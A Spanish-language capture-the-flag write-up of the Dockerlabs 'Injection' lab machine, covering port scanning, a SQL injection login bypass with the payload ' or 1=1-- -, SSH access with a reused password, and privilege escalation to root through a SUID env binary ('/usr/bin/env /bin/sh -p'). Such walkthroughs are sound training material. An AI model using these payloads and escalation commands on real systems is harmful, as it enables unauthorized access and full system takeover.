 ```yaml
---
title:  "Injection - Dockerlabs"
header:
  teaser:
categories: 
  - CTFs
tags:
  - Dockerlabs
---
```


La máquina **Injection** de [Dockerlabs](https://dockerlabs.es/) está clasificada como de nivel muy fácil. Posee un sitio web vulnerable a SQLi que nos proporcionará un usuario y contraseña para acceder al sistema. Una vez conectados por SSH, deberemos aprovechar los privilegios que el usuario tiene sobre el binario `/env` para escalar privilegios.

## Reconocimiento

Comienzo desplegando la máquina docker con el script de auto_deploy. Me aseguro que se encuentra activa haciendo un ping.

```shell
ping -c 1 172.17.0.2                                                                                                                                
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.095 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.095/0.095/0.095/0.000 ms
```

El siguiente paso es hacer un nmap para ver que puertos tiene abiertos. Utilizo los siguientes parámetros:

- -p-: Escanear todos los puertos (65535).
- –open: Mostrar solo los puertos abiertos.
- -sS: Realiza un TCP SYN Scan para escanear rápidamente que puertos están abiertos.
- –min-rate 5000: Indicamos que el escaneo no vaya más lento que 5000 paquetes por segundo.
- -vvv: El modo verbose nos muestra la información según se va encontrando.
- -n: No realizar resolución de DNS. Así evitamos que el escaneo dure más tiempo del necesario.
- -Pn: Deshabilitar el descubrimiento de host mediante ping.
- -oG: Exportar el resultado a un fichero en una sola línea para que podamos usar comandos como: grep, awk, sed, etc. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports                                                                  

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 12:34 EDT
Initiating ARP Ping Scan at 12:34
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:34, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:34
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:34, 0.77s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-29 12:34:17 EDT for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Encuentra 2 puertos abiertos: 

- 22 (SSH)
- 80 (HTTP)

Ejecuto otro nmap para analizar los servicios y versiones de esos puertos. Los comandos usados son:

- -sCV: Detectar el servicio y aplicar scripts básicos de reconocimiento.
- -p: Indicar los puertos a escanear.
- -oN: Exportar el resultado a un archivo.

```shell
 nmap -sCV -p22,80 172.17.0.2 -oN target                                  
 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 12:36 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.39 seconds
```

Uso whatweb para ver que tecnologías se usan en la web.

```shell
whatweb http://172.17.0.2                                                                                                                           
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

Para enumerar archivos y directorios uso la herramienta dirsearch. Le indico que no me muestre varios códigos de estado HTTP.

```shell
dirsearch -u http://172.17.0.2 --exclude-status 403,404,500,502,400,401                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/injection/nmap/reports/http_172.17.0.2/_24-05-29_12-38-12.txt

Target: http://172.17.0.2/

[12:38:12] Starting: 
[12:38:23] 200 -    0B  - /config.php                                       
[12:38:28] 200 -  976B  - /index.php/login/                                 
Task Completed
```

## Análisis de vulnerabilidades

Accedo a la web y me encuentro con la página que viene por defecto en la instalación de apache.

![Injection 1](/assets/images/2024-05-29-Injection/injection_1.png)

Voy al index.php que he encontrado antes con dirsearch. Allí, veo que hay login de usuario.

![Injection 2](/assets/images/2024-05-29-Injection/injection_2.png)

Pruebo el clásico admin::admin, pero no da resultado.

![Injection 3](/assets/images/2024-05-29-Injection/injection_3.png)

## Explotación de vulnerabilidades

Intento hacer una SQL injection para entrar. Usando `' or 1=1-- -` consigo hacer login.

![Injection 4](/assets/images/2024-05-29-Injection/injection_4.png) 

![Injection 5](/assets/images/2024-05-29-Injection/injection_5.png)

Al parecer, no hay mucho más que hacer en la web. Investigo si hay algo interesante en config.php, pero no veo nada.

Es posible que el mencionado usuario "dylan" exista en el sistema y su contraseña sea la misma que la del login. Intento acceder por ssh a la máquina y consigo entrar.

```shell
ssh dylan@172.17.0.2                                                                                                                                
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@bb585b76a84c:~$ whoami
dylan
dylan@bb585b76a84c:~$
```

## Escalada de privilegios

Reviso mi usuario actual.

```shell
dylan@bb585b76a84c:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```

Listando desde la raíz binarios con permisos SUID, encuentro `/env`. 

```shell
dylan@92056a7029d2:/$ find \-perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/bin/chsh
./usr/bin/su
./usr/bin/mount
./usr/bin/umount
./usr/bin/passwd
./usr/bin/gpasswd
./usr/bin/chfn
./usr/bin/env
./usr/bin/newgrp
```

Ejecuto `sudo env /bin/sh` para obtener una shell como root, pero me dice que `sudo` no está instalado en el sistema.

```shell
dylan@bb585b76a84c:/$ sudo env /bin/sh
-bash: sudo: command not found
```

Buscando en [env | GTFOBins](https://gtfobins.github.io/gtfobins/env/) encuentro como conseguir una shell ejecutando `./env /bin/sh -p`.

```shell
dylan@bb585b76a84c:/$ /usr/bin/env /bin/sh -p
# whoami
root
```

